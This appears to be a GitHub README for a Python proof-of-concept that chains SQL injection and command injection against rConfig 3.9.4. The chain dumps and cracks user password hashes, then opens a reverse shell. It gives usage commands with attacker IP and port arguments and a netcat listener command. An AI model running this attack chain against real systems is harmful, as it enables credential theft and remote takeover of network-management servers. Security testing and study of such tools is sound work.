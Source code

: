 # rConfig 3.9 Combined SQL Injection and Command Injection PoC

## Overview
This PoC targets rConfig version `3.9.4` and demonstrates exploitation through a combination of SQL Injection and Remote Command Injection vulnerabilities. It automates the process of:
1. Extracting database name via SQLi
2. Dumping user credentials from the database
3. Attempting to crack password hashes using hashcat with the `rockyou` wordlist and `best64.rules`
4. Optionally performing Remote Command Execution (RCE) via command injection on the search functionality, using the cracked admin credentials

This script is based on and combines two original PoCs:
- [48208.py](https://www.exploit-db.com/exploits/48208) (SQL Injection) by vikingfr
- [48241.py](https://www.exploit-db.com/exploits/48241) (Command Injection) by Matthew Aberegg and Michael Burkey

It was modified in order to automate cracking and optional shell spawning.

## Requirements
- Python 3
- `requests` library (pip install requests)
- `hashcat` installed and accessible via command line
- `rockyou.txt` wordlist (or equivalent) located at `/usr/share/wordlists/rockyou.txt`
- hashcat rules file `/usr/share/hashcat/rules/best64.rule`

## Usage
To dump users and hashes only:
```bash
python3 rConfig_rce.py https://target
```
To dump users, crack passwords, and attempt RCE (requires attacker IP and port for reverse shell):
```bash
python3 rConfig_rce.py https://target attacker_ip attacker_port
```

## Notes
- If hashcat fails to crack the password, the script suggests using online cracking services such as [CrackStation](https://crackstation.net/).
- If the password hash cannot be cracked automatically, you will be prompted to input the plaintext password manually for RCE attempts.
- The script prioritizes using the `admin` account for the command injection phase.
- Make sure to have a listener (e.g., `nc -lvnp 80`) running on your attacker machine to catch the reverse shell.

## Disclaimer
This tool is intended for authorized security testing and educational purposes only. Unauthorized use against systems without permission is illegal and unethical.
